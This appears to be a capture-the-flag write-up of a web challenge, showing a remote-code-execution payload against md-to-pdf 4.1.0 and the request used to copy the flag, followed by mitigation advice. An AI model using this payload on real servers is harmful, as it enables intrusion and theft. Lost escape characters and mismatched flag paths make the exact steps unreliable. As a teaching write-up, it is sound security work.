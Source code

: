 ```yaml
---
layout: default
title: Blinkerfluids
---
```


# [Cyber Apocalypse](../index.md) - Web - Blinkerfluids

*I did not have the foresight to save screenshots or the challenge description while the CTF was active*.

In this challenge, a web application allows the user to create a markdown based invoice, and it will convert it to PDF. 

We are given a copy of the source code, so the first thing I do is explore that.

The web app is a docker container that runs a `node.js` based javascript web app.

The `Dockerfile` tells us that the flag can be found at /flag.txt:
```Dockerfile
# Add flag
COPY flag.txt /flag.txt
```

The file `MDHelper.js` contains code that uses the `md-to-pdf` module to convert a MarkDown document to a PDF.

```javascript
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}

module.exports = {
    makePDF
};
```
We can see that it dumps the finished PDF files in `./static/invoices/`.

A quick google search for "md-to-pdf exploits" leads me to numerous sites describing a Remote Code Execution vulnerability in this module prior to version `5.0.0`. The `package.json` file tells me that the version of this plugin that the app is using is `4.1.0`, so we should be able to use this to grab the flag.

The code in `MDHelper` doesn't appear to do any sanitization of the input, it just takes the raw input from the API endpoint and runs it through md-to-pdf. 

The proof of concept code for this exploit tells me that if I give it the following payload, I can run arbitrary commands on the server:
```
---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE
```
So, I used [Insomnia](https://insomnia.rest) to send the following request body directly to `http://challenge-ip-and-port/api/invoice/add`. I had to replace the double-quotes with single-quotes, from the proof of concept code.
```json
{
    "markdown_content" : "---jsn((require('child_process')).execSync('cat /flag > static/invoices/flag.txt'))n---RCE"
}
```
And response I got back was:
```json
{
    "message" : "Invoice saved successfully!"
}
```
Now all I needed to do was to visit `http://challenge-ip-and-port/static/flag.txt` to view the flag.

I had originally tried to coax it into putting the flag data into the PDF, but realized I could just copy the file directly to a web-viewable directory and ignore the PDF.

This exploit could have been thwarted by:
 - Updating md-to-pdf to version 5.0.0 or above
 - Sanitizing user input to only allow MarkDown
 - Running the app using a limited user account in the Docker container and setting proper permissions for sensitive files in the container.